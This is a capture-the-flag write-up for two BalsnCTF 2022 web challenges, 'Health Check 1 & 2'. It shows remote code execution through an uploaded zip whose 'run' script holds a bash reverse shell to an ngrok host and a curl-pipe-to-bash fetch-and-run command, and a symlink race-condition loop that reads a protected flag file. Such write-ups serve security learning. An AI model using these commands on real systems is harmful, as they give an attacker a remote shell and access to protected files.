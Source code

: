 ```yaml
---
layout: single
title: Health Check 1 & 2 - BalsnCTF
excerpt: Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our "fastest" Health Check API in the world!
date: 2022-9-05
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: #
categories:
  - ctf
  - web
tags:  
  - BalsnCTF
  - remote command execution
  - race condition
---
```



## Challenge Description
"Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our "fastest" Health Check API in the world!"


## Information
Some information about healthcheck1 and healthcheck2, these are 2 seperate challenges where you have to gain access with RCE for healthcheck 1 enumerate the file system and grab the flag. After that healthcheck 2 comes to the surface, so we got a shell and with that into web application directory(`/home/healthcheck/app`) we found 2 python files called `apiserver.py` and `background.py` with source code of the app, analyzing the source code of the `apiserver.py` at `@app.get('/{dir_name}')` route is there a opportunity for a `race contition` attack and after that grab the second flag.


## Health Check 1
A first look into web challenge we got a message `{"message":"Hello World"}` who looks like `json` format. Doing more enumeration i didnt find something worth so i try bruteforce some directories. <br>
![index](https://user-images.githubusercontent.com/45040001/188512190-3470dbe0-f726-4f73-92a1-11b802ffe06f.png)

While directory bruteforcing running the `/docs` directory appear with different `content length` <br>
![docs_dir](https://user-images.githubusercontent.com/45040001/188512230-691bfdc5-8811-4e0b-a180-b15a56e97f28.png)

When visit the `/docs` directory we found 3 interestings HTTP routes and they are: `POST /new`,`GET /{dir_name}` and the last one `GET /` <br>
![docs](https://user-images.githubusercontent.com/45040001/188512252-23eea18f-11a7-4008-b7b0-b85ed03742c8.png)
<br>

Lets enumerate these routes... Lets take the first one and open it we will find out a description which says:
<b>"This endpoint is only for admin. do NOT share this link with players!

Upload the health check script to create a new problem. The uploaded file should be a zip file. The zip file should NOT have a top-level folder, you must place an executable (or a script) named run. You may put other fiels as you want. Below is an example output of zipinfo myzip.zip of a valid myzip.zip"</b>
<br>
![admin_only](https://user-images.githubusercontent.com/45040001/188512336-edf35a77-5b7d-4bc4-bdd8-956d5aa938f3.png)

When i read `you must place an executable (or a script)` instantly i thing a bash script so i tried.<br>
![upload exploit](https://user-images.githubusercontent.com/45040001/188512694-815aa9fe-edc5-4eb4-a3d1-fd1103a1ef8a.png)

I create a zip file with a random name(`tet.zip`) and i put my `run` executable inside with the curl command sending a `GET` requst to my burpcollaborator.(bellow run executable source code) <br>
```bash
#!/bin/bash

curl http://burpcollaborator.net/
```
After a few seconds i get the request from curl command and i knew it i can get a reverse shell just putting the reverse shell into run executable but... <br>
![curl](https://user-images.githubusercontent.com/45040001/188512936-18f8d21c-d5a4-4cdd-87f0-6dcdd562b042.png)

but when i tried i had a problem.. The problem it was the URL scheme must be "http","https" so i create 2 other files.(source code below)<br>
![cors](https://user-images.githubusercontent.com/45040001/188512958-8afb1bfb-cba4-43b7-ba6a-3535130004f2.png)

<br>

The first file was the `shell.sh` where i upload it into a web server so i can reach it from the other file called `run` executable.
```bash
#!/bin/bash
# shell.sh

bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12771 0>&1
```

This source code below is the `run` executable where with the `curl` command we get the source code of `shell.sh` and pipeline it with `bash` command and successfully get the reverse shell .
```bash
#!/bin/bash
# run executable

curl http://server-to-shell.com/shell.sh|bash
```

![rev_shell](https://user-images.githubusercontent.com/45040001/188512834-833e9ba4-3db1-43de-8a8f-dc7e1ae3cd84.png) <br>

We can retrive the flag in the `__pycache__` directory.
![flag](https://user-images.githubusercontent.com/45040001/188512842-48603fcf-de87-439a-8168-dc3fcd5be75e.png)


## Health Check 2

![examine](https://user-images.githubusercontent.com/45040001/188760193-9a4b878f-9659-4dd7-864d-e0646ab7f53a.png)


```python
@app.get('/{dir_name}')
async def get_status(dir_name: str):
    file = data_path / dir_name / 'status.json'
    if not file.resolve().is_relative_to((data_path / dir_name).resolve()):
        return HTTPException(404, detail='no status')
    try:
        with open(file, 'r') as fp:
            return fp.read()
    except:
        return HTTPException(404, detail='no status')
```

![upload zip_for flag](https://user-images.githubusercontent.com/45040001/188760009-9ed5c627-b8f2-4105-b548-11f59ae5bd6a.png)

```bash
# run executable into flag.zip
while :; do ln -s /home/healthcheck/app/flag2 status.json; rm status.json; echo 'lalal' > status.json; rm status.json; done
```


![run_my_script](https://user-images.githubusercontent.com/45040001/188760071-b6c4a1d1-212c-44d4-ab9a-9a9399777a51.png)

![404](https://user-images.githubusercontent.com/45040001/188760084-ea4bb487-ce74-4944-b0ad-b29b171f238c.png)

![lalala](https://user-images.githubusercontent.com/45040001/188760090-36c82282-f3d3-4ede-9edc-6e5ff54fdc61.png)

![flag](https://user-images.githubusercontent.com/45040001/188760093-e824b6d0-d869-4148-8db6-b443521888da.png)



